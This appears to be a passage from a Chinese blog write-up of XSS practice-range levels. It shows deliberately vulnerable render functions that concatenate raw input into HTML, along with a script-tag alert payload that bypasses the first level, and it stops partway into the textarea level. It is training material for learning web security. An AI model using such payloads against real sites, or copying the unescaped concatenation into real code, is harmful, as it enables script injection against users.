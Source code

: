 ```yaml
---
title: XSS练习
date: 2022-01-16 14:34:20
tags:
      - 安全
      - 靶场练习
categories:
      - 安全
description:
keywords:
      - XSS
      - 练习
top_img: /img/xss-img.png
cover: /img/xss-img.png
---
```


# XSS

### 练习靶场一

http://xss1.njhack.xyz

#### 0x00

服务器代码

```php
function render (input) {
  return '<div>' + input + '</div>'
}
```

通过分析代码可以得出,没有设防直接注入即可

```html
<scriPt>  
  alert(String.fromCharCode(49));
    </script>
```



#### 0x01



```php
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```

从源码可以看出,可以看出输入的内容被包裹在 textarea中间了,这样我们输入的任何内容会被弄成文本
